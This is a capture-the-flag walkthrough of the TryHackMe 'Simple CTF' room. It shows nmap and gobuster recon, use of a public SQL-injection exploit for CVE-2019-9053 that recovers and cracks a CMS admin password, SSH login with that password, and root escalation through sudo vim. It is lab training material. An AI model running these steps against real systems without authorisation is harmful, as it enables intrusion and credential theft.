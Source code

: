 ```yaml
---
title: TryHackMe Simple CTF
date: 2024-03-10 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png
---
```


A beginner level CTF. Know how to use nmap, directory busting, network service exploitation, searching CMS public exploit and linux privilege escalation.

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $TARGET_IP --open
```
`-sV`: Enables version detection, which attempts to determine the version of services running on open ports.

`-sC`: Enables default script scanning, executing a set of scripts to discover additional information and potential vulnerabilities.

`-p-`: Scans all 65,535 TCP ports, allowing for thorough port enumeration.

`TARGET_IP`: Specifies the target IP address.

`--open`: Shows only open ports in the output, filtering out closed and filtered ports.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 06:37 EST
Nmap scan report for 10.10.157.97
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.01 seconds
```
Based on the Nmap scan results, the target system has two open ports with the following services.
- Port 21/tcp: vsftpd 3.0.3
- Port 2222/tcp: OpenSSH 7.2p2 running on Ubuntu Linux.
- Port 80/tcp: Apache HTTP Server 2.4.18 running on Ubuntu.

## **Insights**
---
- 80 HTTP
    - We have found a directory /simple that has a CMS
    - Search for a possible default login credentials
    - Found a CMS Version (CMS Made Simple version 2.2.8)
    - Search for a possible version vulnerability

- 21 FTP
    - vsftpd 3.0.3
    - We have FTP Anonymous login. We didn’t tried this one!

- 2222 SSH
    - We need some credentials to access this and bruteforcing can take a really long time before the credentials can be cracked. Hence, this is the least of our priorities for pentesting.
    - Found some credentials.

## **Enumeration**
---
### 80 HTTP
Based from our Nmap scan, it looks like port 80 only shows the Apache default page.

![Desktop View](/assets/images/simple-ctf/def-page.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.157.97 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.157.97/simple/]
/server-status        (Status: 403) [Size: 300]
```

It looks like we have a redirect page. We can inspect that and look for more information


![Desktop View](/assets/images/simple-ctf/simple.png){: width="972" height="589" }

All right! We have a Content Management System (CMS), we can try inspecting source code and see if we can find something interesting.

![Desktop View](/assets/images/simple-ctf/source-code.png){: width="972" height="589" }

The version of the CMS mentioned is `2.2.8`, which suggests that this is the specific release of the software that the website is using. This means we can search in "google" or others like `[service_name]` `[version]` exploit

Fortunately, someone posted an updated CMS exploit on their github: [kriss-u/cmsmadesimple-exploit.py](https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b)


This script is an exploit for an unauthenticated SQL injection vulnerability in CMS Made Simple versions up to 2.2.9, identified by [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053). The exploit performs a time-based SQL injection to extract sensitive information from the vulnerable web application

The script brute-forces the `username`, `email`, and `password` by sequentially guessing their values and observing the response time to determine when a guess is correct.

If the `--crack` option is used, the script attempts to crack the hashed password by hashing each word in the provided wordlist with the previously extracted salt and comparing it against the extracted hashed password.


```bash
python3 exploit.py -u http://target-uri --crack -w /path-wordlist
```

Using the exploit we have found

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```


## **Gaining an Initial Foothold**

Now that we have a username and a password. How about using these credentials to log in via SSH running on port 2222.

```bash
ssh mitch@<TARGET_IP>> -p 2222
```
![Desktop View](/assets/images/simple-ctf/ssh.png){: width="972" height="589" }

Now we got the shell, let us look for the flag

```bash
/home/mitch/user.txt
```

Let us also look for another user!

![Desktop View](/assets/images/simple-ctf/user2.png){: width="972" height="589" }

## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

We found that granting a user, such as `"mitch"`, has the ability to run Vim as root without a password, as specified by `(root) NOPASSWD: /usr/bin/vim` in the sudoers configuration. This privilege effectively elevates "mitch" to have root-level access for the scope of actions performable within Vim, bypassing standard security protocols that require authentication for such elevated privileges.

![Desktop View](/assets/images/simple-ctf/sudo-priv.png){: width="972" height="589" }

We can use [gtfobin](https://gtfobins.github.io/gtfobins/vim/#sudo) for privilege escalation.

```
sudo vim -c ':!/bin/sh'
```
![Desktop View](/assets/images/simple-ctf/pwned.png){: width="972" height="589" }



## TAKE AWAY CONCEPTS
- Learn how the exploit works. There are instances where the code might not work you expected it to be.